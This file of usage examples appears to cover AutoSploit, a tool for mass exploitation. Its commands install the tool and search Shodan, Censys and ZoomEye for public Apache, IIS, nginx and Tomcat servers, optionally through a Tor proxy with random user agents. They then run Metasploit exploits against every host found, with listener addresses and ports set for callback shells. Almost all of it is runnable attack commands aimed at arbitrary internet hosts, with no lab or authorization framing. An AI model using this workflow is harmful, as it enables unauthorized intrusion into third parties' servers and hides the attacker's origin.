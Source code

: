 This file contains examples of how to use AutoSploit.

================================================================================
== Installation ==
================================================================================

# 1. Clone the repository from GitHub
git clone https://github.com/NullArray/AutoSploit

# 2. Navigate into the cloned directory
cd AutoSploit

# 3. Make the installer executable
chmod +x install.sh

# 4. Run the installer
./install.sh


================================================================================
== Usage ==
================================================================================

---
--- Interactive Mode ---
---

# Start the interactive console to be guided through the process.
python autosploit.py


---
--- Searching for Targets ---
---

# Search for hosts running 'Apache' using Shodan.
python autosploit.py -s -q "Apache"

# Search for hosts with 'IIS' using Censys.
python autosploit.py -c -q "IIS"

# Search for 'nginx' servers using ZoomEye.
python autosploit.py -z -q "nginx"

# Search across all available search engines for 'Tomcat'.
python autosploit.py -a -q "Tomcat"

# Perform a search using a random User-Agent and a proxy.
python autosploit.py -s -q "Apache" --random-agent --proxy socks5://127.0.0.1:9050


---
--- Exploiting Targets ---
---

# After gathering hosts from a search, run the exploit modules against them.
# This command assumes you have already run a search command like the ones above.
python autosploit.py -e

# Configure Metasploit settings before running the exploit phase.
# This sets the workspace to 'myproject', LHOST to '192.168.1.10', and LPORT to '4444'.
python autosploit.py -e -C myproject 192.168.1.10 4444


================================================================================
== Full Workflow Example ==
================================================================================

# 1. Search for vulnerable 'Apache' servers on Shodan.
python autosploit.py -s -q "product:Apache"

# 2. Launch the exploitation phase against the hosts found in the previous step.
#    This will use the default Metasploit configuration.
python autosploit.py -e

# --- OR ---

# A more advanced workflow in a single (conceptual) sequence:
# 1. Search for 'Microsoft-IIS httpd 6.0' using all search engines.
python autosploit.py -a -q "Microsoft-IIS httpd 6.0"

# 2. Run exploits, configuring MSF to use the 'iis_6' workspace, with a listener
#    on your local IP '10.0.0.5' and port '9001'.
python autosploit.py -e -C iis_6 10.0.0.5 9001
